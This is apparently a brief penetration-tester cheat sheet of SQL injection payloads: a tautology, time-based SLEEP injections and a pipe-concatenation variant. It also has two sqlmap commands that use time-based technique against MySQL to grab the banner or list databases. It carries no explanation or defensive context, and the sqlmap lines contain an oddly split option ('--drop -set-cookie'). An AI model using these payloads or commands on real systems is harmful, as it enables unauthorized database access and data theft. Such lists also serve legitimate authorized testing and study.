 # misc

Example sqli test:
```
1' OR 1='1
```
Example sqli test 2:
```
1' AND SLEEP(5)='1
```
Example sqli CONCAT `|` 1:
```
1'|((SELECT 1 FROM (SELECT(SLEEP(5)))ABC))|'
```
sqlmap example 1:
```
sqlmap -r request.txt --force-ssl --dbms mysql --technique T --drop -set-cookie --banner -p {PARAM}
```

sqlmap example 2:
```
sqlmap -r request.txt --force-ssl --dbms mysql --technique T --drop -set-cookie --dbs -p {PARAM}
```
